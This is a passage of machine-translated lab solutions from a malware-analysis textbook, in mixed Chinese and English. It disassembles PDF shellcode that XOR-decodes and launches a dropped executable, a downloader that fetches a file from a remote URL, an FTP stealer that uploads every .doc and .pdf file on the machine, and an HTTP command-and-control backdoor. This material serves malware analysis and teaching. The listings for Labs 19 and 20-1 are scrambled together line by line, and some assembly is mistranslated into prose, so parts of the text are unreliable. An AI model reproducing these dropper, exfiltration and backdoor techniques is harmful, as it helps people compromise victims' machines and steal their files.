





000001E8 push edx

000001E9 push dword ptr [ebx+40h] ; 文件 1 偏移量 E08

000001EC push dword ptr [ebp-8] ; PDF 文件句柄 000001EF call dword ptr [ebx+20h] ; 设置文件指针

000001F2 push dword ptr [ebx+44h] ; 文件 1 大小

000001F5 push dword ptr [ebp-0Ch] ; 内存缓冲区

000001F8 push dword ptr [ebp-8] ; PDF 文件句柄 000001FB push dword ptr [ebx+24h] ; ReadFile

000001FE call fileIoWrapper 

*清单 19-16L：读取第一个嵌入文件*

代码调用 SetFilePointer 以调整恶意 PDF 中的位置

以便它将基于存储在嵌入数据 0x40 处的值，从恶意 PDF 中提取的第一个文件的位置偏移量。shellcode 调用我们命名为 fileIoWrapper 的辅助函数在处读取文件内容。对该函数的分析显示它具有以下函数原型：

__stdcall DWORD fileIoWrapper(void* ioFuncPtr, DWORD hFile, char* buffPtr,DWORD bytesToXfer); fileIoWrapper 的第一个参数是 ReadFile 或 WriteFile 的函数指针。shellcode 在循环中调用给定的函数指针，将整个缓冲区传输到或从给定的文件句柄。

接下来，清单 19-17L 中的 shellcode 构建输出文件路径，在处调用 GetTempPathA，然后附加字符串 foo.exe。

00000203 xor eax, eax

00000205 lea edi, [ebp-124h] ; 文件路径缓冲区

0000020B mov ecx, 40h

00000210 rep stosd

00000212 lea edi, [ebp-124h] ; 文件路径缓冲区

00000218 push edi

00000219 push 100h

0000021E call dword ptr [ebx+10h] ; 获取临时路径 A 

00000221 xor eax, eax

00000223 lea edi, [ebp-124h] ; 文件路径缓冲区

00000229 repne scasb

**1 9**

0000022B dec edi

0000022C mov [ebp-1Ch], edi

0000022F mov dword ptr [edi], 2E6F6F66h ; "foo." E11

00000235 mov dword ptr [edi+4], 657865h ; "exe\x00"

*清单 19-17L：第一个输出文件的第一个文件名创建* 实验室解决方案

**709**

[www.it-ebooks.info](http://www.it-ebooks.info/)

此提取的文件使用我们命名为 writeBufferToDisk 的辅助函数写入磁盘。分析显示它具有以下函数原型：

__stdcall void writeBufferToDisk(DWORD* globalStructPtr, char* buffPtr, DWORD

btesToWrite, DWORD maskVal, char* namePtr);

此函数将输入缓冲区中的每个字节与掩码值提供的值进行 XOR 运算，然后将解码后的缓冲区写入由 namePtr 指定的文件名。清单 19-18L 中的 writeBufferToDisk 调用在处使用 XOR

mask of 0x4a and write the file to *%TEMP%\foo.exe*. This filename is passed to the call to CreateProcessA at , creating a new process from the file just written to disk.

0000023C mov ebx, [ebp-14h]

0000023F lea eax, [ebp-124h]

00000245 push eax ; 输出名称

00000246 push 4Ah ; ; XOR 掩码

0000024B push dword ptr [ebx+44h] ; 文件 1 大小

0000024E push dword ptr [ebp-0Ch] ; 缓冲区指针

00000251 push ebx ; 全局指针

00000252 call writeBufferToDisk 

00000257 xor eax, eax

00000259 lea edi, [ebp-178h]

0000025F mov ecx, 15h

00000264 rep stosd

00000266 lea edx, [ebp-178h] ; lpProcessInformation 0000026C push edx

0000026D lea edx, [ebp-168h] ; lpStartupInfo

00000273 push edx

00000274 push eax

00000275 push eax

00000276 push eax

00000277 push 0FFFFFFFFh

0000027C push eax

0000027D push eax

0000027E push eax

0000027F lea eax, [ebp-124h] 

00000285 push eax

00000286 call dword ptr [ebx+4] ; CreateProcessA

00000289 push dword ptr [ebp-0Ch]

0000028C call dword ptr [ebx+34h] ; GlobalFree

*列表 19-18L：解码、写入和启动第一个文件* 壳代码重复列表 19-19L 中的相同过程，用于存储在恶意 PDF 中编码的第二个文件。它根据存储在嵌入数据偏移 0x4c 中的文件大小分配空间，并使用存储在偏移 0x48 中的文件偏移量调整文件指针位置。

0000028F xor edx, edx

00000291 mov ebx, [ebp-14h]

**710**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

00000294 push dword ptr [ebx+4Ch] ; 第二个文件大小 

00000297 push edx

00000298 call dword ptr [ebx+30h] ; GlobalAlloc

0000029B test eax, eax

0000029D jz short loc_313

0000029F mov [ebp-10h], eax

000002A2 xor edx, edx

000002A4 push edx

000002A5 push edx

000002A6 push dword ptr [ebx+48h] ; 第二个文件偏移量 

000002A9 push dword ptr [ebp-8] ; PDF 文件句柄

000002AC call dword ptr [ebx+20h] ; SetFilePointer

*列表 19-19L：为第二个文件分配空间* 列表 19-20L 中的壳代码使用与第一个文件相同的临时文件路径，但在  处将文件名替换为 *bar.pdf*。在  处的 writeBufferToDisk 调用使用掩码值 0x4a 解码文件内容，并将其写入 *%TEMP%\bar.pdf*。

000002AF push dword ptr [ebx+4Ch] ; 第二个文件大小

000002B2 push dword ptr [ebp-10h] ; 内存缓冲区

000002B5 push dword ptr [ebp-8] ; PDF 文件句柄

000002B8 push dword ptr [ebx+24h] ; ReadFile

000002BB call fileIoWrapper

000002C0 mov eax, [ebp-1Ch] ; Temp Path 缓冲区末尾 000002C3 mov dword ptr [eax], 2E726162h ; bar. 

000002C9 mov dword ptr [eax+4], 666470h ; pdf\x00

000002D0 lea eax, [ebp-124h]

000002D6 push eax ; 输出名称

000002D7 push 4Ah ; ; 异或掩码

000002D9 mov ebx, [ebp-14h]

000002DC push dword ptr [ebx+4Ch] ; 第二个文件大小

000002DF push dword ptr [ebp-10h] ; 缓冲区指针

000002E2 push ebx ; 全局指针

000002E3 call writeBufferToDisk 

*列表 19-20L：读取、解码和写入第二个嵌入文件* 最后，列表 19-21L 中的壳代码打开它刚刚写入的 PDF 文件

*%TEMP%\bar.pdf* 使用 ShellExecuteA 调用在 。它传递命令字符串 "open" 在  和 PDF 的路径，这会导致系统使用注册处理该文件的程序打开指定的文件。

000002E8 xor ecx, ecx

000002EA lea eax, [ebp-168h] ; 擦拭空间，用于 ShellExecute lpOperation 动词 **1 9**

000002F0 mov dword ptr [eax], 6E65706Fh ; "open" 

000002F6 mov byte ptr [eax+4], 0

000002FA push 5 ; SW_SHOWNORMAL | SW_SHOWNOACTIVATE

000002FF push ecx

00000300 push ecx

00000301 lea eax, [ebp-124h] ; 输出 PDF 文件名 

00000307 push eax

0040101C mov dword ptr [ecx], offset aHttpWww_practi ;

0x401040 处的函数不接受任何参数，但它通过 ECX 传递一个表示 this 指针的对象引用。

00401049 push 0 ; DWORD

00401019 mov ecx, [ebp+var_4]

列表 20-1L 中的代码从调用 new 运算符开始，这表明该代码正在创建一个对象。对象引用返回到 EAX，并最终存储在 var_8（）和 var_4（）中。var_4

00401025 call sub_401040

00000310 call dword ptr [ebx+38h] ; ShellExecuteA 

*Listing 20-2L: sub_401040 的代码列表*

00000313 call dword ptr [ebx+0Ch] ; GetCurrentProcess 00000316 push 0

00401056 push 0 ; LPUNKNOWN

0000031C call dword ptr [ebx+8] ; TerminateProcess

*Listing 19-21L: 打开第二个文件并退出*

00401010 mov [ebp+var_8], eax

0040104B push offset aCEmpdownload_e ; "c:\tempdownload.exe"

***Short Answers***

00401008 call ??2@YAPAXI@Z ; operator new(uint) 0040100D add esp, 4

00401053 mov ecx, [eax]

2\.

00401058 call URLDownloadToFileA

00401043 push ecx

;0 "http://www.practicalmalwareanalysis.com"...

附录 C

0000030F push ecx

这个简短的实验旨在演示 this 指针的使用。主方法的大部分内容在列表 20-1L 中展示。

00401006 push 4

[www.it-ebooks.info](http://www.it-ebooks.info/)

**Lab 20-1 解决方案**

0000030E push eax

00401016 mov [ebp+var_4], eax

实验解决方案

被移动到 ECX（），表示它将作为函数调用中的 this 指针传递。一个指向 URL *http://www.practicalmalwareanalysis.com/* 的指针

**711**

00401022 mov ecx, [ebp+var_4]

00000308 lea eax, [ebp-168h] ; "open"的指针

*Listing 20-1L: Lab20-01.exe 的主方法*

**712**

3\.

[www.it-ebooks.info](http://www.it-ebooks.info/)

1\.

00000313 loc_313:

*cpp.html* 然后存储在对象的开始处，随后调用函数 sub_401040，该函数在列表 20-2L 中展示。

00401044 mov [ebp+var_4], ecx

00401013 mov eax, [ebp+var_8]

0000031B push eax

***Detailed Analysis***

00401050 mov eax, [ebp+var_4]

*cpp.html* 作为 URL。

00401055 push ecx ; LPCSTR

该程序从远程服务器下载文件，并将其存储在本地系统上的*c:\tempdownload.exe*。

恶意媒体文件通常包含合法文件，这些文件被 shellcode 提取和打开，试图避免引起怀疑。预期用户会认为任何延迟都是由于计算机运行缓慢，而实际上，漏洞已经启动了一个新的进程，然后打开了一个真实文件来掩盖其踪迹。

00401047 push 0 ; LPBINDSTATUSCALLBACK

在列表 20-2L 中，我们看到 ECX 中的 this 指针被访问并存储在 var_4 处。代码的其余部分是将参数放置在堆栈上以调用 URLDownloadToFileA。为了获取用于函数调用的 URL，this 指针在  处被访问，然后访问对象中存储的第一个数据元素在  处，然后将其推入堆栈在  处。

从主方法中回忆，对象中存储的第一个元素是 URL 字符串 *http://www.practicalmalwareanalysis.com/cpp.html*。主方法返回，程序执行完毕。

**Lab 20-2 解答**

***简答***

1.

最有趣的字符串是 ftp.practicalmalwareanalysis.com 和 Home ftp client，这表明这个程序可能是 FTP 客户端软件。

2.

导入 FindFirstFile 和 FindNextFile 表明程序可能搜索受害者的文件系统。导入 InternetOpen、InternetConnect、FtpSetCurrentDirectory 和 FtpPutFile 告诉我们，这种恶意软件可能将文件从受害者的机器上传到远程 FTP 服务器。

3.

在 0x004011D9 处创建的对象代表一个 *.doc* 文件。它在偏移量 0x00401440 处有一个虚拟函数，该函数将文件上传到远程 FTP 服务器。

服务器。

4.

在 0x00401349 处的虚拟函数调用将调用 0x00401380、0x00401440 或 0x00401370 处的其中一个虚拟函数。

5.

该恶意软件使用高级 API 函数连接到远程 FTP 服务器。

我们可以下载并设置一个本地 FTP 服务器，并将 DNS 请求重定向到该服务器，以便完全测试这个恶意软件。

6.

该程序搜索受害者的硬盘，并将所有具有 *.doc* 或 *.pdf* 扩展名的文件上传到远程 FTP 服务器。

实验解答

**713**

[www.it-ebooks.info](http://www.it-ebooks.info/)

7.

实现虚拟函数调用的目的是允许代码为不同类型的文件执行不同的上传函数。

***详细分析***

首先，我们查看程序中的字符串。最有趣的两个字符串是 Home ftp client 和 ftp.practicalmalwareanalysis.com。查看导入项，我们还可以看到 FtpPutFile 和 FtpSetCurrentDirectory。整体来看，字符串和导入项强烈暗示这个程序将要连接到一个 FTP 服务器。

接下来，我们运行这个程序以执行动态分析。由于与 FTP 相关的字符串，我们应在我们的恶意软件分析机器上设置一个 FTP 服务器，并使用 ApateDNS 将 DNS 请求重定向到本地机器。

当我们运行恶意软件时，我们在 procmon 中看到恶意软件正在打开以 *c:\* 开头的目录中的文件，然后搜索每个目录和子目录。查看 procmon 输出，我们看到程序主要打开目录，而不是单个文件，并且它正在打开具有 *.doc* 和 *.pdf* 扩展名的文件。在代码打开 *.doc* 和 *.pdf* 文件的地方，我们还看到调用 TCPSend 和 TCPRecv，这表明与本地 FTP 服务器的连接。如果您运行的 FTP 服务器有日志，您应该能够看到建立的连接，但您不会看到任何已成功上传的文件，因此让我们将程序加载到 IDA Pro 中以查看发生了什么。程序的主方法相对较短，如列表 20-3L 所示。

00401500 推送 ebp

00401501 将 ebp 的值设置为 esp

00401503 从 esp 减去 198h

00401509 将 [ebp+wVersionRequested] 的值移动到 202h 00401512 将 eax 的值设置为 [ebp+WSAData]

00401518 推送 eax ; lpWSAData 00401519 将 cx 的值设置为 [ebp+wVersionRequested]

00401520 推送 ecx ; wVersionRequested 00401521 调用 WSAStartup

00401526 将 [ebp+var_4] 的值移动到 eax

00401529 推送 100h ; namelen 0040152E 推送 offset name ; name

00401533 调用 gethostname

00401538 推送 0 ; int

0040153A 推送 FileName 的偏移量 ; "C:\\*"

0040153F 调用 sub_401000

00401544 添加 esp, 8

00401547 异或 eax, eax

00401549 将 esp 设置为 ebp

0040154B 弹出 ebp

0040154C 返回 10h

*列表 20-3L：Lab 20-2 的主方法*

**714**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

代码首先调用 WSAStartup 在  以初始化 Win32 网络功能。接下来，它调用 gethostname 在  以检索受害者的主机名。主机名存储在一个全局变量中，IDA Pro 已将其标记为 name 在 。我们将此变量重命名为 local_hostname，以便我们可以在代码稍后使用时识别它。然后代码调用 sub_401000

在 ，这将执行此恶意软件的其余部分。检查 sub_401000，我们看到它调用 FindFirstFile，并在一个循环中运行，该循环调用 FindNextFile 并递归地调用自身。你应该能识别出这种模式是程序在文件系统中搜索。在循环的中间，我们看到许多字符串操作函数（strcat、strlen、strncmp 等），这些函数将找到程序正在搜索的内容。strncmp 将操作后的字符串与字符 *.doc* 进行比较。如果文件名以 *.doc* 结尾，则执行列表 20-4L 中的代码。

004011D9 推送 8

004011DB 调用 ??2@YAPAXI@Z ; operator new(uint) 004011E0 添加 esp, 4

004011E3 将 [ebp+var_15C] 的值移动到 eax

004011E9 比较 [ebp+var_15C] 的值与 0

004011F0 跳转到 short loc_401218

004011F2 将 [ebp+var_15C] 的值移动到 edx

004011F8 将双字指针 [edx] 的值移动到偏移量 off_4060E0

004011FE 将 [ebp+var_15C] 的值移动到 eax

00401204 将双字指针 [eax] 的值移动到偏移量 off_4060DC

0040120A 将 [ebp+var_15C] 的值移动到 ecx

00401210 将 [ebp+var_170] 的值移动到 ecx

00401216 跳转到 short loc_401222

*列表 20-4L：如果找到以 *doc* 结尾的文件，则执行对象创建代码。*

此代码创建了一个新对象，代表找到的以 *.doc* 结尾的文件。代码首先调用新操作符来创建对象，然后开始初始化对象。对象存储在 var_15C 处。两条指令，在  和  处，将虚拟函数表写入对象的第一个偏移量。在  处的第一条指令对我们来说是无用的，因为它被在  处的第二条 mov 指令覆盖。

我们知道 off_4060DC 是一个虚拟函数表，因为它在创建对象后立即被写入，并且如果我们查看 off_4060DC，我们会看到它存储了一个指向 sub_401440 函数的指针。

我们将此函数标记为 docObject_Func1，并在稍后分析它是否被调用。

如果文件名不以 *.doc* 结尾，代码会检查文件名是否以 *.pdf* 结尾。如果是，它会在偏移量 0x4060D8 处创建不同类型的对象，具有不同的虚拟函数表。一旦创建了 pdf 对象，代码就会跳转到 0x4012B1，然后跳转到 0x40132F，这是在创建 doc 对象之后执行的位置。如果文件名不以 . *pdf* 或 *.doc* 结尾，则它为所有其他文件类型创建另一种类型的对象。

**20**

在所有代码路径汇聚的跳转之后，我们看到代码将我们的对象指针移动到 var_148，然后我们看到清单 20-5L 中的代码。

实验室解决方案

**715**

[www.it-ebooks.info](http://www.it-ebooks.info/)

0040132F mov ecx, [ebp+var_148]

00401335 mov edx, [ebp+var_4]

00401338 mov [ecx+4], edx

0040133B mov eax, [ebp+var_148]

00401341 mov edx, [eax]

00401343 mov ecx, [ebp+var_148]

00401349 call dword ptr [edx]

*清单 20-5L：虚拟函数调用*

此代码引用存储在 var_148 中的对象，然后调用虚拟函数指针表中的第一个指针。无论是否调用，此代码都是相同的。

*.pdf* 或 *.doc* 文件对象已创建，但针对不同类型的对象调用的函数不同。

我们之前看到代码可以创建三种不同类型的对象之一：



一个用于 *.pdf* 文件的对象，我们将它称为 pdfObject。该对象在虚拟函数表中的第一个函数位于 0x4060D8。



一个用于 *.doc* 文件的对象，我们将它称为 docObject。该对象的虚拟函数表中的第一个函数位于 0x4060DC。



一个用于所有其他文件的对象，我们将它称为 otherObject。该对象的虚拟函数表中的第一个函数位于 0x4060E0。

我们首先检查要调用的 pdf 对象的函数。我们导航到虚拟函数表 0x4060D8，发现被调用的函数从 0x401380 开始。我们看到它调用 InternetOpen 来初始化一个互联网连接，然后调用 InternetConnect 来建立到 *ftp.practicalmalwareanalysis.com* 的 FTP 连接。然后我们看到它将当前目录更改为 *pdfs* 并将当前文件上传到远程服务器。我们现在可以将函数重命名为 pdfObject_UploadFile。我们还查看 docObject 的函数，看到它执行了几乎相同的步骤，只是将目录更改为 *docs* 目录。

最后，我们查看 otherObject 的虚拟函数表，以找到其他 Object 的 0x401370 处的上传函数。这个函数做得很少，我们可以得出结论，只有 *.doc* 和 *.pdf* 文件被这个恶意软件上传。

恶意软件作者实现了虚拟函数，以便这个代码可以很容易地修改或扩展，以便通过实现一个新的对象并更改创建对象的部分代码来添加对不同文件类型的支持。

为了测试这段代码，我们可以在我们的 FTP 中添加名为 *docs* 和 *pdfs* 的目录。

服务器，并允许匿名写入访问它们。当我们重新运行我们的恶意代码时，我们看到它将受害者的计算机上的每个 *.pdf* 和 *.doc* 文件上传到这些目录，每个文件都使用受害者的主机名和一个 ID 号命名。

**716**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

**实验 20-3 解答**

**简短答案**

1.

几个看起来像错误消息的字符串（如“发送 Http post 错误”、“发送 Http get 错误”、“读取响应错误”等）告诉我们这个程序将使用 HTTP GET 和 POST 命令。我们还看到 HTML

路径 (/srv.html, /put.html 等)，这暗示了恶意软件将尝试打开的文件。

2.

几个 WS2_32 导入告诉我们这个程序将通过网络进行通信。一个对 CreateProcess 的导入表明这个程序可能会启动另一个进程。

3.

在 0x4036F0 处调用的函数除了字符串之外不接受任何参数，但 ECX 包含对象的 this 指针。我们知道包含该函数的对象是异常对象，因为该对象后来被用作 CxxThrowException 函数的参数。

从上下文中我们可以看出，0x4036F0 处的函数初始化了一个异常对象，该对象存储了一个描述导致异常的字符串。

4.

开关表的六个条目实现了六个不同的后门命令：空操作（NOOP）、休眠、执行程序、下载文件、上传文件和调查受害者。

5.

该程序实现了一个使用 HTTP 作为命令通道的后门，具有启动程序、下载或上传文件以及收集受害者机器信息的能力。

**详细分析**

当我们查看程序中的字符串时，我们看到几个看起来像错误消息的字符串，如列表 20-6L 所示。

编码参数错误

指示器响应错误

在 pollstatus 中捕获异常：%s

轮询错误

参数解析错误

上传文件错误

下载文件错误

执行机器调查错误

创建进程失败

收集受害者信息失败

配置错误

在 main 中捕获异常：%s

套接字连接错误

主机查找失败。

**20**

发送数据错误

实验室解决方案

**717**

[www.it-ebooks.info](http://www.it-ebooks.info/)

读取响应错误

发送 Http get 错误

发送 Http post 错误

*列表 20-6L：Lab20-03.exe 字符串的简略列表* 这些错误消息为程序的功能提供了很好的洞察。这些消息告诉我们恶意软件可能执行以下操作：



使用 HTTP POST 和 GET 命令



向远程机器发送指示器



由于某种原因（可能是执行命令）轮询远程服务器



上传文件



下载文件



创建额外的进程



执行机器调查

仅从这些字符串中获取信息，我们可以猜测这个程序是一个使用 HTTP GET 和 POST 命令进行命令和控制的后门程序。看起来程序支持上传文件、下载文件、创建新进程和调查受害者的计算机。

当我们在 IDA Pro 中打开程序时，我们看到它的主方法调用 0x403BE0 处的函数，然后返回。0x403BE0 处的函数包含主程序流程，因此我们将它称为 main2。它首先使用 new 操作符创建一个新对象，并使用 config.dat 作为函数的参数调用新对象的相关函数，如列表 20-7L 所示。

00403C03 push 30h

00403C05 mov [ebp+var_4], ebx

00403C08 call ??2@YAPAXI@Z ; operator new(uint) 00403C0D mov ecx, eax

00403C0F add esp, 4

00403C12 mov [ebp+var_14], ecx

00403C15 cmp ecx, ebx

00403C17 mov byte ptr [ebp+var_4], 1

00403C1B jz short loc_403C2B

00403C1D push offset FileName ; "config.dat"

00403C22 call sub_401EE0

00403C27 mov esi, eax

*列表 20-7L：在 main2 中创建和使用对象*

IDA Pro 在  处标记新的操作符，并将新对象的指针返回到 EAX。在  处将对象的指针移动到 ECX，在那里它用作函数调用在  时的 this 指针。这告诉我们函数 sub_401EE0 是在  处创建的对象类的成员函数。

现在，我们将这个对象称为 firstObject。列表 20-8L 显示了它在 sub_401EE0 中的使用方式。

**718**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

00401EF7 mov esi, ecx 00401EF9 push 194h

00401EFE call ??2@YAPAXI@Z ; operator new(uint) 00401F03 add esp, 4

00401F06 mov [esp+14h+var_10], eax

00401F0A test eax, eax

00401F0C mov [esp+14h+var_4], 0

00401F14 jz short loc_401F24

00401F16 mov ecx, [esp+14h+arg_0]

00401F1A push ecx

00401F1B mov ecx, eax

00401F1D call sub_403180

*列表 20-8L：在 firstObject 上第一次调用的函数* sub_401EE0 首先将 firstObject 的指针存储在 ESI 中，然后在处创建另一个新对象，我们将它称为 secondObject。然后它调用 secondObject 的函数，如图。在我们确定这些对象的目的之前，我们需要继续分析，所以我们现在查看列表 20-9L 中的 sub_403180。

00403199 push offset FileName ; "config.dat"

0040319E mov dword ptr [esi], offset off_41015C

004031A4 mov byte ptr [esi+18Ch], 4Eh 004031AB call ds:CreateFileA

004031B1 mov edi, eax

004031B3 cmp edi, 0FFFFFFFFh

004031B6 jnz short loc_4031D5

004031B8 push offset aConfigError ; "Config error"

004031BD lea ecx, [esp+0BCh+var_AC]

004031C1 call sub_4036F0

004031C6 lea eax, [esp+0B8h+var_AC]

004031CA push offset unk_411560

004031CF push eax

004031D0 call __CxxThrowException@8 ; _CxxThrowException(x,x) *列表 20-9L：创建并抛出异常* 根据使用*config.dat*文件名的 CreateFileA 调用，我们猜测该函数从磁盘读取配置文件，并将其重命名为 setupConfig。列表 20-9L 中的代码尝试在处打开*config.dat*文件。

如果文件成功打开，则会执行跳转，并跳过列表 20-9L 中剩余的代码，如图所示。如果文件未成功打开，我们会在 0x4036F0 地址处的函数中看到传递给函数的字符串 Config error，如图。

0x4036F0 地址处的函数将字符串作为参数，但同时也使用 ECX 作为 this 指针。this 指针所使用的对象的引用存储在栈上的 var_AC 处，如图。我们稍后看到该对象被传递给**20**

CxxThrowException 函数在，它告诉我们 0x4036F0 地址处的函数

是一个异常对象的成员函数。根据 sub_4036F0 被调用的上下文，我们可以假设该函数使用字符串 Config error 初始化一个异常。

实验室解决方案

**719**

[www.it-ebooks.info](http://www.it-ebooks.info/)

识别带有错误字符串参数的函数调用，随后调用 CxxThrowException 非常重要，因为类似的代码，即传递错误字符串给函数后调用 CxxThrowException，在这个程序中到处都有。每次我们看到这种模式，我们就可以得出结论，该函数正在初始化一个异常，所以我们不需要浪费时间分析这些函数。

如果我们继续分析 0x403180 地址处的函数，我们会意识到它从配置文件*config.dat*中读取数据并将其存储在 secondObject 中。

我们现在可以得出结论，secondObject 是一个用于存储和读取配置信息的对象，我们将其重命名为 configObject。

现在我们回到 sub_401EE0，看看我们是否可以更好地确定 firstObject 的使用方式。在创建 configObject 对象后，sub_401EE0 在 firstObject 中存储了大量信息，如图表 20-10L 所示。

00401F2A

mov

[esi], eax

00401F2C

mov

dword ptr [esi+10h], offset aIndex_html ; "/index.html"

00401F33

mov

dword ptr [esi+14h], offset aInfo_html ; "/info.html"

00401F3A

mov

dword ptr [esi+18h], offset aResponse_html ; "/response.html"

00401F41

mov

dword ptr [esi+1Ch], offset aGet_html ; "/get.html"

00401F48

mov

dword ptr [esi+20h], offset aPut_html ; "/put.html"

00401F4F

mov

dword ptr [esi+24h], offset aSrv_html ; "/srv.html"

00401F56

mov

dword ptr [esi+28h], 544F4349h

00401F5D

mov

dword ptr [esi+2Ch], 41534744h

00401F64

mov

eax, esi

*列出 20-10L：在 firstObject 中存储的数据*

首先，eax 被存储在 firstObject 中，之前是 configObject 的指针。

接下来，我们看到一系列硬编码的 URL 路径，然后是两个硬编码的整数，然后函数返回 firstObject 的指针。我们仍然不能完全确定 firstObject 的作用，但它似乎存储了程序的所有全局数据，因此我们暂时将其重命名为 globalDataObject，直到我们了解足够的信息来给它一个更好的名字。

我们现在已经完成了对 main2 调用的第一个函数的分析。我们确定它从文件中加载配置信息并初始化一个存储程序全局数据的对象。在分析了它调用的第一个函数之后，我们现在可以返回到 main2。main2 的其余部分在列出 20-11L 中显示。

00403C2D mov ecx, esi

00403C2F mov byte ptr [ebp+var_4], bl 00403C32 call sub_401F80

00403C37 mov edi, ds:Sleep

00403C3D loc_403C3D:

00403C3D mov eax, [esi]

00403C3F mov eax, [eax+190h]

00403C45 lea eax, [eax+eax*4]

00403C48 lea eax, [eax+eax*4]

00403C4B lea ecx, [eax+eax*4]

00403C4E shl ecx, 2

00403C51 push ecx ; dwMilliseconds **720**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

00403C52 call edi ; Sleep 00403C54 mov ecx, esi

00403C56 call loc_402410

00403C5B inc ebx

00403C5C jmp short loc_403C3D

*列出 20-11L：main2 函数中的信标和轮询命令* 我们看到这个函数在循环外部调用了 sub_401F80，然后在无限循环中调用了 sub_402410 和 Sleep 函数。根据我们从字符串中了解到的程序信息，我们可以猜测 sub_401F80

向远程机器发送信标，并且 sub_402410 检查远程服务器。我们将这些函数重命名为 maybe_beacon 和 maybe_poll。我们看到 maybe_beacon 和 maybe_poll 都将我们的 globalDataObject 传递给 ECX。

指针（在  和 ），并且它们是我们所说的 globalDataObject 的成员函数。基于这一认识，我们将我们的对象重命名为 mainObject。

首先，我们将分析 maybe_beacon。我们看到它创建了一个新的对象并调用了 sub_403D50，如列出 20-12L 所示。

00401FC8 mov eax, [esi]

00401FCA mov edx, [eax+144h]

00401FD0 添加 eax, 104h

00401FD5 push edx ; hostshort 00401FD6 push eax ; char *

00401FD7 call sub_403D50

*列出 20-12L：maybe_beacon 函数的第一个函数调用* 我们看到 IDA Pro 标记了 sub_403D50 的某些参数

because it knows they will be used as parameters to imported functions later.

The most telling of these is hostshort, which tells us that it will be used as a parameter to the networking function htons. The values for these parameters are retrieved from our mainObject, which was stored in ESI.

We see that ESI is dereferenced at  to obtain a pointer to configObject, which is stored at offset 0 in the mainObject. Next, the hostshort is retrieved at an offset of +144 into configObject at , and char * is stored within configObject at offset 0x248 at  (0x104 + 0x144). This level of indirection is common in C++ programs. In a C program, these values would be stored as global data with offsets that are labeled and tracked by IDA Pro, but in C++ they are stored as offsets into objects that are harder to track.

In order to determine the data that will be pushed onto the stack, we would need to go back to the function that initializes configObject to see what is stored at offsets 0x144 and 0x248\. In practice, it’s often easier to use dynamic analysis to determine those values, but without access to the command-and-control server, you may need to go back to configObject.

**20**

Looking at sub_403D50, we see that it calls htons, socket, and connect to establish a connection to a remote socket. maybe_beacon then calls sub_402FF0, which contains the code shown in Listing 20-13L.

Solutions to Labs

**721**

[www.it-ebooks.info](http://www.it-ebooks.info/)

0040301C

call ds:GetComputerNameA

00403022

test eax, eax

00403024

jnz short loc_403043

00403026

push

offset aErrorConductin ; "Error conducting machine survey"

0040302B

lea ecx, [esp+40h+var_1C]

0040302F

call sub_403910

00403034

lea eax, [esp+3Ch+var_1C]

00403038

push offset unk_411150

0040303D

push eax

0040303E

call __CxxThrowException@8 ; _CxxThrowException(x,x)

*Listing 20-13L: Beginning of the victim survey function* We see from this code that the function is trying to obtain the computer’s hostname. If it fails to do so, it throws an exception with the error message “Error conducting machine survey.” This tells us that this function is conducting a survey of the victim’s machine.

The remainder of sub_402FF0 shows the malware gathering additional victim information. We can now rename sub_402FF0 to surveyVictim and move on.

Next, we analyze the function called by maybe_beacon, which calls sub_404ED0\.

From the error message, we can see that sub_404ED0 does an HTTP POST to the remote server. maybe_beacon then calls sub_404B10, which from the error messages we can see is checking the beacon response. Without going into too much detail, we can tell that maybe_beacon is, in fact, the beacon function and that it expects a specific beacon response in order for the program to continue running.

我们回到 main2 检查 maybe_poll (0x402410) 函数。我们看到它的第一个调用是 sub_403D50，这是我们之前分析过的，并知道它初始化了与命令和控制服务器的连接。然后 maybe_poll 函数调用 sub_404CF0，以发送 HTTP GET 请求以从远程服务器检索信息。然后它调用 sub_404B10，以检索对 HTTP GET 请求的响应。然后我们看到两个代码块，如果响应不符合某些格式标准，则会引发异常。

接下来，我们遇到了一个有六个选项的 switch 语句，如列表 20-14L 所示。

0040251F mov al, [esi+4]

00402522 add eax, -61h ; switch 6 cases 00402525 cmp eax, 5

